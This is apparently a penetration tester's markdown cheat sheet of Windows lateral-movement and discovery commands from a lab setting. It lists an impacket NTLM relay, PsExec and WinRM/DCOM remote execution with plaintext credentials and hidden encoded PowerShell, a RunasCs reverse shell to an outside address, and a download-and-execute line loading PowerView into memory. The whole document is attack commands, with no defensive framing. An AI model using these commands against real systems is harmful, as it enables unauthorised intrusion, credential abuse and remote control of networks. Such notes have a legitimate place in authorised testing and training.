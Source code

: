 
# Lateral Movement
## NTLM Relay 
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c 
```
## PsExec
```powershell
wget https://download.sysinternals.com/files/PSTools.zip

.\PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

# OTH
net use \\files04
.\PsExec64.exe \\PC1 cmd --accepteula
```
## WMI winRM
```powershell
# winrm
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

# winrs 
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e "
```
## DCOM
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e   ","7")
```
## RunasCs
https://github.com/antonioCoco/RunasCs
```powershell
.\RunasCs.exe username password cmd.exe -r 10.10.14.83:7777
```

# Discovery
## Windows
### PowerView
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
```powershell
cd /usr/share/windows-resources/powersploit/Recon/
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1')

# cmd
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```